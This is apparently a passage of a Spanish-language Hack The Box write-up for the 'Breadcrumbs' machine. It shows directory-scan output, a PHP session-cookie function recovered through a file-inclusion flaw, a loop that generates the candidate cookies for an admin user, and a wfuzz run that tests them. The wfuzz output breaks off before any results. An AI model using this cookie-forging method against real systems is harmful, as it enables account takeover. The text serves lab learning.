 ```null
/index.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2507]
/uploads              (Status: 301) [Size: 345] [--> http://10.10.10.228/portal/uploads/]
/signup.php           (Status: 200) [Size: 2734]
/assets               (Status: 301) [Size: 344] [--> http://10.10.10.228/portal/assets/]
/php                  (Status: 301) [Size: 341] [--> http://10.10.10.228/portal/php/]
/includes             (Status: 301) [Size: 346] [--> http://10.10.10.228/portal/includes/]
/Index.php            (Status: 302) [Size: 0] [--> login.php]
/Login.php            (Status: 200) [Size: 2507]
/db                   (Status: 301) [Size: 340] [--> http://10.10.10.228/portal/db/]
/logout.php           (Status: 302) [Size: 12] [--> login.php]
/vendor               (Status: 301) [Size: 344] [--> http://10.10.10.228/portal/vendor/]
/cookie.php           (Status: 200) [Size: 0]
```

Desde el LFI, me traigo el contenido del archivo y lo copio a mi equipo local. Tiene una función que crea la cookie de sesión. Está tomando una cadena qu aparece hardcodeada, el nombre del usuario y un valor aleatorio entre 0 y la longitud del nombre del usuario menos una unidad

```null
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528.9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```

Para poder ver el resutlado, le añado al script una sentencia que se encargue de imprimir la cookie para un usuario dado. Como el usuario Paul estaba activo y era administrador, trataré de computar su cookie de sesión.

```null
print(makesession("paul"))
```

Ejecuto el script 2000 veces y muestro cadenas únicas para que no haya repeticiones

```null
for i in $(seq 1 2000); do php cookie.php; echo; done | sort -u
paul47200b180ccd6835d25d034eeb6e6390
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paula2a6a014d3bee04d7df8d5837d62e8c5
```

Las almaceno en un diccionario y con wfuzz pruebo a autenticarme con todas para ver cual es válida

```null
wfuzz -c -w /home/rubbx/Desktop/HTB/Machines/Breadcumbs/dictionary.txt -H "Cookie: PHPSESSID=FUZZ" http://10.10.10.228/portal/
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.228/portal/
Total requests: 4

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================
```